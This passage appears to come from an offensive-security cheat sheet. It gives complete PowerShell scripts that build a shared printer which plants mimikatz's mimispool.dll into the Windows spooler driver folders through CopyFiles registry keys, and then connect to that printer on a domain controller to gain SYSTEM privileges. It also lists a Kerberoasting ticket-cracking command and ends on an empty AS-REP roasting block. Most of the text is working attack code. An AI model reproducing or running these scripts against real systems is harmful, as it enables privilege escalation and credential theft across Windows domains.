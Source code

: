 Create a printer :
```
$printerName     = 'Universal Priv Printer'
$system32        = $env:systemroot + '\system32'
$drivers         = $system32 + '\spool\drivers'
$RegStartPrinter = 'Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Print\Printers\' + $printerName
 
Copy-Item -Force -Path ($system32 + '\mscms.dll')             -Destination ($system32 + '\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\x64\mimispool.dll'   -Destination ($drivers  + '\x64\3\mimispool.dll')
Copy-Item -Force -Path '.\mimikatz_trunk\win32\mimispool.dll' -Destination ($drivers  + '\W32X86\3\mimispool.dll')
 
Add-PrinterDriver -Name       'Generic / Text Only'
Add-Printer       -DriverName 'Generic / Text Only' -Name $printerName -PortName 'FILE:' -Shared
 
New-Item         -Path ($RegStartPrinter + '\CopyFiles')        | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Directory' -PropertyType 'String'      -Value 'x64\3'           | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Kiwi')   -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Litchi') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Directory' -PropertyType 'String'      -Value 'W32X86\3'        | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Files'     -PropertyType 'MultiString' -Value ('mimispool.dll') | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Litchi') -Name 'Module'    -PropertyType 'String'      -Value 'mscms.dll'       | Out-Null
New-Item         -Path ($RegStartPrinter + '\CopyFiles\Mango')  | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Directory' -PropertyType 'String'      -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Files'     -PropertyType 'MultiString' -Value $null             | Out-Null
New-ItemProperty -Path ($RegStartPrinter + '\CopyFiles\Mango')  -Name 'Module'    -PropertyType 'String'      -Value 'mimispool.dll'   | Out-Null
```
Execute the driver:
```
$serverName  = 'dc.purple.lab'
$printerName = 'Universal Priv Printer'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```
## Active directory
### Kerberoasting
Bruteforce password of the ticket:
```
python2 tgsrepcrack.py pwd kerberoast.bin
```
### AS-REP Roasting
Bruteforce the hash below:
```
```